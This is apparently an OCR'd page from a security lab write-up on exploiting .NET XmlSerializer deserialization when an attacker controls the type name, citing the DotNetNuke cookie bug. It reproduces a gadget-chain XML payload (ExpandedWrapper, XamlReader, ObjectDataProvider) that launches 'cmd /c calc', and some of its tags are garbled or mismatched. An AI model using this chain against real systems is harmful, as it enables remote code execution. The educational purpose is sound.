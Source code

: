 ![image](ZUOKqypIizam.png)

Looking at the source code of the website, the expected type is clearly `TeeTrove.Models.Tee`, however, we should notice that this class name is under our control as it is sent during the request.

![image](NCPKAl7qirbH.png)

[DotNetNuke](https://www.dnnsoftware.com/), a popular `.NET` `CMS`, was [vulnerable](https://pentest-tools.com/blog/exploit-dotnetnuke-cookie-deserialization) to a deserialization attack in a very similar manner a few years ago (refer to the [screenshot](https://github.com/dnnsoftware/Dnn.Platform/blob/v9.9.1/DNN%20Platform/Library/Common/Utilities/XmlUtils.cs#L155) below). Essentially, if an attacker can control the type with which the `XmlSerializer` is initialized, then the deserialization is susceptible to exploitation.

![image](xBpDrscg6ri6.png)

## Developing the Exploit

#### Taking a Look at the DNN Payload

At this point, based on the previous section, we might assume that developing the exploit is as simple as serializing an `ObjectDataProvider` once again to get `command execution`, but unfortunately it is not as straightforward this time. Reading further through the [blog post](https://pentest-tools.com/blog/exploit-dotnetnuke-cookie-deserialization) detailing the similar DotNetNuke deserialization vulnerability, we notice that the while the XML payload does contain an `ObjectDataProvider`, it is wrapped inside an `ExpandedWrapperOfXamlReaderObjectDataProvider` tag.

```xml
<
<key="pentest-tools.com" type="System.Data.Services.Internal.ExpandedWrapper`2[[System.Web.UI.ObjectStateFormatter, System.Web, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b03f5f7f11d50a3a],[System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35]], System.Data.Services, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089">
    <ExpandedWrapperOfXamlReaderObjectDataProvider>
    <ExpandedElement/>
    <MethodName>Parse</MethodName>
    <anyType xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xsi:type="xsd:string">
        <ResourceDictionary xmlns='http://schemas.microsoft.com/winfx/2006/xaml/presentation' xmlns:x='http://schemas.microsoft.com/winfx/2006/xaml' xmlns:System='clr-namespace:System;assembly=mscorlib' xmlns:Diag='clr-namespace:System.Diagnostics;assembly=system'>
            <ObjectDataProvider x:Key='LaunchCmd' ObjectType='{x:Type Diag:Process}' MethodName='Start'>
                <ObjectDataProvider.MethodParameters>
                    <System:String>cmd</System:String>
                    <System:String>/c calc</System:String>
                </ObjectDataProvider.MethodParameters>
            </ObjectDataProvider>
        </ResourceDictionary>
    </anyType>
</MethodParameters>
<ObjectInstance xsi:type="XamlReader"></ObjectInstance>
</ProjectedProperty0>
</ExpandedWrapperOfXamlReaderObjectDataProvider>
</item>
</profile>

```

